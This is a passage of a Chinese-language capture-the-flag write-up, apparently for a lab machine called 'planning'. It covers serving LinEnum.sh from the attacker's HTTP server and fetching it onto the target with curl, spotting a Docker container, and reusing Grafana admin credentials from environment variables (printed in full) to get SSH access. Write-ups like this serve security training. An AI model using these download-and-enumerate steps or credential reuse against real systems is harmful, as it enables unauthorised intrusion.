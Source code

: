 ### System Investigation

接著使用 updog 在本地快速建立檔案 http server，然後再目標主機 curl linEnum.sh 過去。

```shell
➜ updog -p 8080
```

```shell
enzo@planning:~$ curl -O http://10.10.14.88:8080/LinEnum.sh
```

執行完畢後可以在報告最尾端看到他發現了 `/.dockerenv`，代表我們有可能在 docker 容器裡面，必須想辦法取得真正目標主機的控制權。

```
[+] Looks like we're in a Docker container:
-rwxr-xr-x 1 root root 0 Apr  4 10:23 /.dockerenv
```

## Container Escape and Lateral Movement

不過好消息是，在容器的 env 變數中發現了一組帳號密碼。

```
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

再重新嘗試用這組帳號密碼登入 ssh，便成功取得了 enzo 的 shell。在同一個目錄中也成功拿到了 user flag。

![](enzo_ssh.png)

### Internal Service Discovery
